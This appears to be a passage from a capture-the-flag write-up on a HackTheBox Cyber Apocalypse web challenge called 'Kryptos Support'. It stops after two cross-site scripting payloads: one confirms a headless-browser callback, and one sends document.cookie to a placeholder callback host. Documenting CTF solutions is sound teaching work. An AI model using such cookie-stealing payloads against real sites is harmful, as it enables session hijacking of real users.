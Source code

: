 ```yaml
---
title: "[All Web] - Hackthebox Cyber Apocalypse"
tags:
  - CTF
  - Write-up
  - client-side
  - cache-deception
  - zip-slip
---
```

![](banner-cyber-apocalypse%201.png)
## Prologue

CTF Hackthebox Cyber Apocalypse is an international competition held every year by Hack The Box. This CTF Competition is using Jeopardy-style, which means every teams must find a flag in the given challenge. This competition lasts for six days.

## Write Up

### Kryptos Support (300 pts)

The value of this challenge is 300 points and +1000 players have solved this challenge.

![](kryptos-1.png)

We're given a website with an interface like this.

![](kryptos-2.png)

After doing an enumeration, we only found an input and button. When submitting the form, We have a unique response that could make use of this as a hint. We assume this is a generic _Client-Side Challenge_

![](kryptos-3.png)

To prove our assumption, We sent a Cross-Site Scripting payload.

```html
<script> 
fetch('ip_callback') 
</script>
```
After waiting for a few seconds, We obtained a callback from an unknown IP address with HeadlessChrome as the User-Agent. That means our assumption is correct.

![](kryptos-5.png)

```html
<script> 
fetch('ip_callback/q?=' + document.cookie) 
</script>
```
